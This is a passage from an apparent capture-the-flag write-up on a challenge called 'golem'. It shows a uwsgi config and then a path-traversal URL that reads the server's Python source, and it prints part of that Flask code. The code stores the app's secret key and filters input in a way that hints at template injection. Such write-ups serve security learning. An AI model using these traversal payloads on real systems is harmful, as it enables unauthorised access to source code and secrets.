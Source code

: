 ```

Boom! Now we have exact path to Python application source (look at ```wsgi-file``` below):


```
Article Content: [uwsgi] socket	= 127.0.0.1:9090 
plugin	= python 
wsgi-file	= /opt/serverPython/golem/server.py 
chdir = /opt/serverPython/golem 
process	= 3 
callable	= app
```


Let's get the source:

```
https://golem.asisctf.com/article?name=../../../opt/serverPython/golem/server.py
```

And here we go:

![](assets/9.png)


Here's formatted Python source code of ```server.py```:

```python
import os

from flask import (
    Flask,
    render_template,
    request,
    url_for,
    redirect,
    session,
    render_template_string
)
from flask.ext.session import Session

app = Flask(__name__)


execfile('flag.py')
execfile('key.py')

FLAG = flag
app.secret_key = key


@app.route("/golem", methods=["GET", "POST"])
def golem():
    if request.method != "POST":
        return redirect(url_for("index"))

    golem = request.form.get("golem") or None

    if golem is not None:
        golem = golem.replace(".", "").replace(
            "_", "").replace("{", "").replace("}", "")

    if "golem" not in session or session['golem'] is None:
        session['golem'] = golem
```